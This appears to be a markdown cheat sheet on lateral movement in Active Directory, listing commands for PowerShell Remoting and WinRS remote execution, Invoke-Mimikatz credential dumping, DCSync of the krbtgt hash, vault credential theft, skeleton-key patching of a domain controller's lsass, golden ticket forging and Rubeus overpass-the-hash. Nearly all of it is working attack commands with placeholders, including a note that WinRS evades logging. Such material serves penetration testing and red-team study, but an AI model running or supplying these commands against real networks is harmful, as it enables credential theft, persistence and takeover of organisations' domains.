 ## Lateral Movement on Active Directory 


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

##### Enable PowerShell Remoting From [M$ Documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting?view=powershell-7.2), creates rules on computer firewall to allow remote connections. 
```powershell
C:> Enable-PSRemoting 
```
##### Create Remote Session [M$ Documented](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2)
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
##### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
##### **Remote Execution**
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
##### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
##### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
##### OverPass the Hash (OPTH
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
##### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
##### Credentials from Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
##### Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname_full_FQDN>
```
##### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Rubeus
---
##### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
